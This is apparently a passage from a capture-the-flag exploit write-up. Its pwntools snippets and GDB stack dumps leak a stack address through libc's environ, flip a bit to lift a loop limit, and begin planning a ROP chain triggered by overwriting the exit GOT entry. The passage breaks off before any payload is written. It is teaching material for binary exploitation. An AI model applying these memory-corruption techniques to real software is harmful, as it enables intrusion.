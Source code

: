 ```python
# leak stack
environ = libc.symbols['environ']
log.info('environ: ' + hex(environ))
stackleak = readword(environ)
log.info('stackleak: ' + hex(stackleak))
```


## Update `maxflips`


```python
# free rides condition change
maxflips = stackleak - 0xd8
log.info('maxflips: ' + hex(maxflips))
flipbit(maxflips,31)
```

With `maxflips` location known, just flip the most significant bit.  `exit` will no longer be used to loop back to `main` until that bit is reset.


## Repurpose `exit`

With virtually unlimited flips without the use of `exit` and control of the stack, all that is left is to setup a ROP chain in the stack and update the `exit` GOT entry to call it.

The first step is to find the stack pointer.  To do this put a `pause()` just before `flipbit(maxflips,31)`, run the exploit script (terminal one), at the pause connect with GDB (terminal two), set the same breakpoint as before and then continue (from GDB), then just _return_ to unpause (terminal one).  At the break (terminal two) compute the distance from `maxflips` to `$esp`:

```
gef➤  p/x $ebp-0x24 - $esp
$1 = 0xec
```

> `0xec` is consistently the distance from `maxflips` to `$esp` with this code as written up to this point.  Any changes (extra flips (calls to exit)) and the offset will also change and will need to be recomputed.

In my current session (with ASLR enabled), this is what the stack looks like:

```
0xff8b6768│+0x0000: 0x0804944d  →   xchg ax, ax ← $esp
0xff8b676c│+0x0004: 0x00000000
0xff8b6770│+0x0008: 0x00000000
0xff8b6774│+0x000c: 0x00000000
0xff8b6778│+0x0010: 0x0804936d  →   mov eax, DWORD PTR [eax]
0xff8b677c│+0x0014: 0x0804944d  →   xchg ax, ax
0xff8b6780│+0x0018: 0x00000000
0xff8b6784│+0x001c: 0x00000000
```

The question is, where do we write the payload?  Where will the stack pointer be after a call to `exit`?
